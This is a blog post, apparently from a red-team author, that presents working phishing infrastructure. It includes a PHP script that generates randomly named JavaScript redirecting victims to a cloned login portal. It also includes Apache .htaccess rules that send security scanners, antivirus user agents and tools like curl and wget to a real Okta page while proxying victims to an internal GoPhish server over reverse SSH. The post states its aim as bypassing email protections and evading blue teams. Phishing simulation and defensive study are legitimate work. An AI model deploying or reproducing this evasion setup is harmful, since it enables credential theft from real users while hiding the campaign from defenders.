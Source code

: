 ```yaml
---
layout: post
title: "Phishing: Bypassing Protections with Dynamic Obfuscated JavaScript, PHP, and .htaccess"
date: 2025-02-26
categories: [phishing, security, PHP, .htaccess, gophish]
tags: [phishing, security, php, apache, redirect, gophish]
---
```


## Introduction

In this post, we detail a PHP script designed to dynamically generate JavaScript code for redirecting users while bypassing some email protections. We also explore the advanced use of Apache's `.htaccess` files to manage web traffic during a phishing campaign. 

![](/img/2025-02-26_1.png)

The GoPhish IOCs were removed, and the default `rid` value was replaced with `ogt`. You can find more info in [Phishing Campaigns: Simulating Real Adversary Tactics](https://dan1t0.com/2025/02/05/Phishing-Campaigns-Simulating-Real-Adversary-Tactics/).

## PHP Code for Dynamic Redirection

Below is the code for `redirect.php`, which validates a token (`ogt`), performs necessary checks, and generates dynamic JavaScript that redirects users to a login portal.

```php
<?php
// redirect.php
// Validate the token
if (!isset($_GET['ogt']) || !preg_match('/^[a-zA-Z0-9]{7}$/', $_GET['ogt'])) {
    die('Invalid token.');
}

$token = $_GET['ogt'];

// Generate a random variable name to obfuscate the JS code
$randomVar = substr(md5(rand()), 0, 8);
$redirectUrl = "https://login.acme-lab.com/?ogt=" . $token;

// Set HTML content header
header('Content-Type: text/html');
?>
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <title>Redirecting...</title>
    <script type="text/javascript">
        (function(){
            // Random variable to avoid fixed patterns in the code
            var <?php echo $randomVar; ?> = '<?php echo $redirectUrl; ?>';
            // Dynamic redirection to the login URL
            window.location.href = <?php echo $randomVar; ?>;
        })();
    </script>
</head>
<body>
    <noscript>
        If you are not redirected automatically, click <a href="<?php echo $redirectUrl; ?>">here</a>.
    </noscript>
</body>
</html>
```

### Technical Explanation

1. **Token Validation:**  
   The script checks if the `ogt` parameter exists and conforms to the expected pattern (7 alphanumeric characters). If not, the script exits.

2. **Random Variable Generation:**  
   A random variable name is generated to hold the redirection URL, which obfuscates the JavaScript code and makes it harder for automated tools to detect a fixed pattern.

3. **Dynamic JavaScript Generation:**  
   The PHP script outputs HTML that includes a JavaScript snippet. This snippet creates the randomly named variable and immediately redirects the browser to the generated URL. A `<noscript>` tag is included for users with disabled JavaScript.

## Web Traffic Flow and .htaccess Configuration

The report outlines a controlled web traffic flow using Apache rewrite rules and `.htaccess` configurations. Below is a detailed explanation of the configurations.

### Traffic Flow

1. **User Entry:**  
   The user receives a link structured as follows:
   ```
   https://lading.acme-lab.com/?ogt=3XdwYUe
   ```
   - **lading.acme-lab.com:** The domain that receives the request.
   - **ogt=3XdwYUe:** A token used for tracking.

2. **Internal Redirection:**  
   The server internally forwards the user to:
   ```
   https://lading.acme-lab.com/redirect.php?ogt=3XdwYUe
   ```
   where the PHP script (shown above) dynamically generates the JavaScript for redirection.

3. **Final Destination:**  
   Ultimately, the user is redirected to:
   ```
   https://login.acme-lab.com/?ogt=3XdwYUe
   ```
   which hosts the cloned captive portal for the campaign.

4. **Infrastructure Setup:**
   - **GoPhish Deployment:** GoPhish is hosted on an internal server that is not directly accessible from the internet.
   - **Reverse SSH Proxy:** The domain `login.acme-lab.com` acts as a proxy that forwards traffic to the internal GoPhish instance using reverse SSH tunneling. This allows external users to interact with GoPhish's phishing portal without exposing it directly.
   - **Port Forwarding:** The reverse SSH connection binds the internal GoPhish service running on port `8080` to the external-facing proxy.

### .htaccess Configurations

Two `.htaccess` files were employed, one for the landing page and another for the login portal to manage traffic effectively. Below, we detail each configuration.

#### .htaccess hosted in lading.acme-lab.com

```apache
RewriteEngine On

# 1. Check if the request is for /track
# 2. Check if the query string contains ogt parameter
# 3. Check if the user-agent is GoogleImageProxy
# If all 3 conditions are met, redirect to https://login.acme-innov.com/track?%{QUERY_STRING}
RewriteCond %{REQUEST_URI} ^/track$ [NC]
RewriteCond %{QUERY_STRING} (^|&)ogt=([a-zA-Z0-9]{7})($|&) [NC]
RewriteCond %{HTTP_USER_AGENT} via\ ggpht\.com\ GoogleImageProxy [NC]
RewriteRule ^ https://login.acme-lab.com/track?%{QUERY_STRING} [R=302,L]


# Redirect empty bots and user-agents to Okta
RewriteCond %{HTTP_USER_AGENT} "WebZIP|wget|curl|HTTrack|crawl|google|bot|b\-o\-t|spider|baidu|python|scrapy|postman|semrush|avast|Norton|Kaspersky|MSIE|trident" [NC,OR]
RewriteCond %{HTTP_USER_AGENT} =""
RewriteRule ^.*$ https://acme-labo.okta.com [R=302,L]

# If the URI is exactly /redirect.php and, if so, stops any further rewriting rules from being applied to this request.
RewriteCond %{REQUEST_URI} ^/redirect\.php$ [NC]
RewriteRule ^ - [L]

# If the URI is exactly /favicon.ico and, if so, stops any further rewriting rules from being applied to this request.
RewriteCond %{REQUEST_URI} ^/favicon\.ico$ [NC]
RewriteRule ^ - [L]

# Redirect URLs with ogt parameter to redirect.php respecting ALL query params
RewriteCond %{QUERY_STRING} (^|&)ogt=([a-zA-Z0-9]{7})($|&)
RewriteRule ^ /redirect.php [L,QSA]

# Redirect all other requests to Okta without parameters
RewriteRule ^.*$ https://acme-labo.okta.com [R=302,L]
```

#### .htaccess hosted in GoPhish for extra-evasion

```apache
RewriteEngine On

#For GoPhish tracking
RewriteCond %{REQUEST_URI} ^/track$ [NC]
RewriteCond %{QUERY_STRING} (^|&)ogt=([a-zA-Z0-9]{7})($|&) [NC]
RewriteCond %{HTTP_USER_AGENT} via\ ggpht\.com\ GoogleImageProxy [NC]
RewriteRule ^.*$ http://localhost:8080%{REQUEST_URI} [P,L]

#Avoiding BlueTeam
RewriteCond %{HTTP_USER_AGENT} "wget|curl|HTTrack|crawl|google|bot|b\-o\-t|spider|baidu" [NC,OR]
RewriteCond %{HTTP_USER_AGENT} =""
RewriteRule ^.*$ https://acme-labo.okta.com? [L,R=302]

#For Gophish
RewriteCond %{QUERY_STRING} ogt=(.+)
RewriteCond %{QUERY_STRING} js_executed=1 [OR]
RewriteCond %{QUERY_STRING} !js_executed=
RewriteRule ^.*$ http://localhost:8080%{REQUEST_URI} [P,L]

#Others
RewriteRule ^.*$ https://acme-labo.okta.com? [L,R=302]
```

## Conclusion

In this post, we showcased how a PHP script can dynamically generate JavaScript for user redirection within a phishing campaign, complemented by advanced `.htaccess` rules for traffic management. By combining server-side validation with client-side dynamic redirection and leveraging Apache's rewrite capabilities, it is possible to bypass common email protections and maintain tight control over the traffic flow.

This infrastructure setup allows GoPhish to remain internal while still serving external users through a reverse SSH proxy, reducing exposure and making detection more challenging.

